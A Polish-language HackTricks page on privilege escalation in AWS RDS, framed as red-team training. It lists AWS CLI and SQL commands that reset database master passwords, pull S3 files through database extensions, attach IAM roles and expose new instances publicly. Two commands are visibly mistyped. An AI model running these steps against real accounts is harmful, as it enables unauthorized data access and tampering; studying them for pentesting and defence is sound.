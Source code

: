 # AWS - RDS Privesc

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS - Usługa bazy danych relacyjnych

Aby uzyskać więcej informacji na temat RDS, sprawdź:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Z tym uprawnieniem atakujący może **zmienić hasło użytkownika głównego** oraz logowanie do bazy danych:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Będziesz musiał być w stanie **skontaktować się z bazą danych** (zazwyczaj są one dostępne tylko z wewnątrz sieci).
{% endhint %}

**Potencjalne zagrożenie:** Znalezienie wrażliwych informacji w bazach danych.

### rds-db:connect

Zgodnie z [**dokumentacją**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), użytkownik posiadający to uprawnienie może połączyć się z instancją bazy danych.

### Wykorzystanie uprawnień roli RDS IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Jeśli wykonasz **`SELECT datname FROM pg_database;`** i znajdziesz bazę danych o nazwie **`rdsadmin`**, będziesz wiedział, że jesteś wewnątrz bazy danych **AWS postgresql**.
{% endhint %}

Najpierw możesz sprawdzić, czy ta baza danych została użyta do uzyskania dostępu do innej usługi AWS. Możesz to sprawdzić, analizując zainstalowane rozszerzenia:

```sql
SELECT * FROM pg_extension;
```

Jeśli znajdziesz coś takiego jak **`aws_s3`**, możesz przypuszczać, że ta baza danych ma **pewien rodzaj dostępu do S3** (istnieją również inne rozszerzenia, takie jak **`aws_ml`** i **`aws_lambda`**).

Dodatkowo, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz sprawdzić, czy **klaster ma przypisaną jakąś rolę IAM** w polu **`AssociatedRoles`**. Jeśli tak, możesz przypuszczać, że baza danych została **przygotowana do dostępu do innych usług AWS**. Na podstawie **nazwy roli** (lub jeśli możesz uzyskać **uprawnienia** roli), możesz **zgadywać**, jakie dodatkowe uprawnienia ma baza danych.

Teraz, aby **odczytać plik wewnątrz kubełka**, musisz znać pełną ścieżkę. Możesz to odczytać za pomocą:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

Jeśli masz **surowe poświadczenia AWS**, możesz ich również użyć do uzyskania dostępu do danych S3 za pomocą:

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **nie musi zmieniać żadnej zmiennej grupy parametrów**, aby móc uzyskać dostęp do S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wewnątrz mysql, jeśli wykonasz zapytanie **`SELECT User, Host FROM mysql.user;`** i istnieje użytkownik o nazwie **`rdsadmin`**, możesz przypuszczać, że znajdujesz się w **AWS RDS mysql db**.
{% endhint %}

Wewnątrz mysql wykonaj **`show variables;`** i jeśli zmienne takie jak **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** mają wartości, możesz przypuszczać, że baza danych jest przygotowana do dostępu do danych S3.

Dodatkowo, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz sprawdzić, czy klastr ma jakąś **powiązaną rolę**, co zazwyczaj oznacza dostęp do usług AWS).

Teraz, aby **odczytać plik wewnątrz kubełka**, musisz znać pełną ścieżkę. Możesz to odczytać za pomocą:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

Atakujący posiadający uprawnienia `rds:AddRoleToDBCluster` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić atakującemu **dostęp do wrażliwych danych** lub modyfikację danych wewnątrz instancji.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Potencjalne skutki**: Dostęp do poufnych danych lub nieautoryzowane modyfikacje danych w instancji RDS.\
Należy zauważyć, że niektóre bazy danych wymagają dodatkowych konfiguracji, takich jak Mysql, który musi określić ARN roli w grupach parametrów.

### `rds:CreateDBInstance`

Tylko z tym uprawnieniem atakujący mógłby utworzyć **nową instancję wewnątrz istniejącego klastra**, który ma przypisaną **rolę IAM**. Nie będzie mógł zmienić hasła głównego użytkownika, ale może być w stanie wystawić nową instancję bazy danych do internetu:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Atakujący posiadający uprawnienia `rds:CreateDBInstance` i `iam:PassRole` może **utworzyć nową instancję RDS z przypisaną określoną rolą**. Atakujący może następnie potencjalnie **uzyskać dostęp do wrażliwych danych** lub modyfikować dane wewnątrz instancji.

{% hint style="warning" %}
Niektóre wymagania dotyczące roli/profilu instancji do przypisania (z [**tutaj**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil musi istnieć w Twoim koncie.
* Profil musi mieć rolę IAM, którą Amazon EC2 ma uprawnienia do przejęcia.
* Nazwa profilu instancji i powiązana nazwa roli IAM muszą zaczynać się od prefiksu `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencjalne skutki**: Dostęp do poufnych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Atakujący posiadający uprawnienia `rds:AddRoleToDBInstance` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić atakującemu **dostęp do poufnych danych** lub modyfikację danych wewnątrz instancji.

{% hint style="warning" %}
Instancja bazy danych musi znajdować się poza klastrami.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencjalne skutki**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
